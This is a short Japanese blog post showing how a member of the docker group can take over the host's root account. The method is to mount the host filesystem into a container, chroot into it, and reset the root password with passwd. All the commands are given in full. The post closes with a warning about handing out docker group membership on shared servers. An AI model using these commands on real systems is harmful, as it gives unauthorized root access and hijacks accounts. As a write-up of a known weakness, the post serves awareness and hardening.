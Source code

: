 ```yaml
---
title: dockerグループの権限でホストのrootアカウントを奪取する
pubtime: 2016-06-14T10:27+0900
tags: [docker, root, コンテナ, 仮想化, chroot, CoreOS]
---
```


[docker](https://www.docker.com/)というコンテナ型の仮想化ソフトがありますよね。
セキュリティが宜しくないとかで、置き換えを目指す[rkt](https://coreos.com/rkt/)という別のソフトウェアが出て来ていたりします。

調べてみたところ、dockerグループに属した一般ユーザーがrootの権限を使えるらしいです。ヤバそうです。試してみました。

ひとまず、ubuntuか何かのイメージを落してきます。使うイメージはなんでも良いと思います。
ちなみにホストマシンには[CoreOS](https://coreos.com/)を使ってみました。
```
ホストマシン $ docker pull ubuntu
```

出来たら、起動します。
```
ホストマシン $ docker run -itv /:/mnt ubuntu /bin/bash
```
ホストマシンのルートディレクトリを`/mnt`にマウントしている、というのがポイントです。
あとのオプションは適当に調べてください。

次に、ホストマシンのルートディレクトリにchrootを行ないます。
```
コンテナ # chroot /mnt /bin/bash
```
これでホストマシンのrootに（擬似的に）なれました。

rootのパスワードを変えます。
```
chrootしたあと # passwd
```
これが出来たら、あとはexit2回でマシンを閉じます。

設定したパスワードでログイン出来るか試してみましょう。
```
ホストマシン $ su -
Password:
```
普通にrootになれると思います。

ね、簡単でしょう？
共有サーバーで運用する場合、dockerグループも迂闊に渡さないようにしたほうが良さそうです…。
